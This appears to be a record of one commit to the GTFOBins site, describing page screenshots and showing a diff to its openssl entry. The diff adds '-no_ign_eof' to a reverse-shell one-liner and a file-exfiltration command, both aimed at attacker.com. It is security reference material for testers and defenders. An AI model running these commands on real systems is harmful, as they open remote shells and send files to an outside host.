

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide. Shown: the part 341-921 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add -no_ign_eof to exit nicely when possible to openssl

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -11,7 +11,7 @@ functions:
       code: |
         RHOST=attacker.com
         RPORT=12345
-        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
+        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
   file-upload:
     - description: |
         To collect the file run the following on the attacker box:
@@ -24,7 +24,7 @@ functions:
         RHOST=attacker.com
         RPORT=12345
         LFILE=file_to_send
-        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
+        openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT < "$LFILE"
   file-download:
     - description: |
         To send the file run the following on the attacker box:
```
